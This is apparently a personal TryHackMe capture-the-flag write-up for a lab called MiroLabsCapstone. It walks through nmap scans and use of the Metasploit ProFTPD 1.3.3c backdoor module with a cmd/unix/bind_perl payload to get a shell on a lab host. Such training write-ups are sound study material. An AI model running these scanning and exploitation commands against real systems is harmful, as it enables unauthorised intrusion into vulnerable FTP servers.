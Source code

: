 ```yaml
---
layout: page
title: MiroLabsCapstone
permalink: /Tutorials/TryHackMe/MiroLabsCapstone/
---
```


[TryHackMe Directory](https://zacvr.github.io/Tutorials/TryHackMe/)
<br/><br/>
<br/><br/>
<br/><br/>
Flags will be **BOLD**
<br/><br/>
<br/><br/>
<br/><br/>


LETS GET SOME ROOT!
----

Since this one is a "Black Box" scenario we need to just try everything we can



First lets find the correct IP

```nmap -n -sn 10.10.77.0-255```

<img src="/images/TryHackMe/MiroLabsCapstone/IPs.png">

Looks like we have 2 possible choices, lets look into them

```nmap 10.10.77.78```

```nmap 10.10.77.141```

<img src="/images/TryHackMe/MiroLabsCapstone/IP_Results.png">

Lets go with the "basic" IP of 78 due to having 3 common exploitable port types

Lets look for any low hanging fruit

```sudo nmap  --script vuln -p 21-80 10.10.77.78 -v```

This just seemed to freeze after 5ish minutes


Now lets try to see what is running

```nmap -Pn -sV 10.10.77.78```

<img src="/images/TryHackMe/MiroLabsCapstone/Services.png">

Well this looks like it could be promising... Lets lookup that ProFTPD version

```msfconsole```

```search ProFTPD 1.3.3c```

<img src="/images/TryHackMe/MiroLabsCapstone/Exploit.png">

We see that we may have a backdoor command we can try

```use 4```

```set RHOSTS 10.10.77.78```

```show options```

<img src="/images/TryHackMe/MiroLabsCapstone/Show.png">

Lets try to run it!

```run```

Annnnnnddddd..... Fail...hmmmm lets look this up

<img src="/images/TryHackMe/MiroLabsCapstone/RunFail.png">

(This Link)[Https://nmap.org/nsedoc/scripts/ftp-proftpd-backdoor.html]  This link shows a possible answer

**nmap --script ftp-proftpd-backdoor -p 21 <host>**

```nmap --script ftp-proftpd-backdoor -p 21 10.10.77.78```

<img src="/images/TryHackMe/MiroLabsCapstone/Backdoor.png">

Well.. Yay? that was a bit anticlimactic... Now how do we use it?

After some trial and error it seems we may not actually have a backdoor yet
	
After a new connection we have a new IP 10..10.38.231
  
More connection issues.. lets reboot

Lets try msfconsole again
	
New IP of 10.10.144.237

Whelp thats not working time to try another path

... I lied after some research we may need to pick a payload
	
```msfconsole```

```search proftp```
	
<img src="/images/TryHackMe/MiroLabsCapstone/Choices.png">
	
```use 6```
	
```set RHOST 10.10.144.237```

```Show Options```
	

<img src="/images/TryHackMe/MiroLabsCapstone/Options.png">

```Run```

<img src="/images/TryHackMe/MiroLabsCapstone/RunFail.png">

Now I see we need to select a payload
	
```Show Payloads```

<img src="/images/TryHackMe/MiroLabsCapstone/RunFail.png">

```set payload cmd/unix/bind_perl```

ANNNNDDDD We are in!
	
<img src="/images/TryHackMe/MiroLabsCapstone/Owned.png">


<br/><br/>
[TryHackMe Directory](https://zacvr.github.io/Tutorials/TryHackMe/)
